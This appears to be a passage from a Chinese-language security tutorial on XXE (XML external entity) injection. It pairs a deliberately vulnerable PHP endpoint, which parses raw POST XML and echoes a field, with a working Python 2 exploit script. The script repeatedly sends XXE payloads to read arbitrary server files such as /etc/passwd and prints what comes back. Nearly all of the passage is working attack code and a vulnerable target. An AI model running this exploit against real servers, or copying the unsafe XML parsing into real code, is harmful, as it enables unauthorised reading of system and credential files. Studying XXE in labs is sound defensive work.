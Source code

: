 ```plain
<?php
$data = file_get_contents('php://input');
$xml = simplexml_load_string($data);
echo $xml->name;
?>
```

读取文件.py

```plain
#!/usr/bin/python
# -*- coding:utf-8 -*-
import urllib2

if __name__ == '__main__':

    print u'输入要访问的地址，如http://127.0.0.1/xml/xxe2.php'
    url = raw_input()
    count=1
    while count==1:
        print u'输入要读取的文件，如file:///etc/passwd'
        payload = raw_input()
        headers = {'Content-type': 'text/xml'}
        xml = '<?xml version="1.0" encoding="utf-8"?><!DOCTYPE xxe [<!ELEMENT name ANY ><!ENTITY xxe SYSTEM "' + payload + '" >]><root><name>&xxe;</name></root>'
        req = urllib2.Request(url = url,headers = headers, data = xml)
        res_data = urllib2.urlopen(req)
        res = res_data.read()
        print res
```

[![](assets/1698897471-6d5d8b8d8d7e911177653d2aaf2dbe68.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191202152024-3548448c-14d4-1.png)  
通过urllib2的request方法用POST方式向目标地址发送XML数据，返回的数据即为服务器相关文件内容。
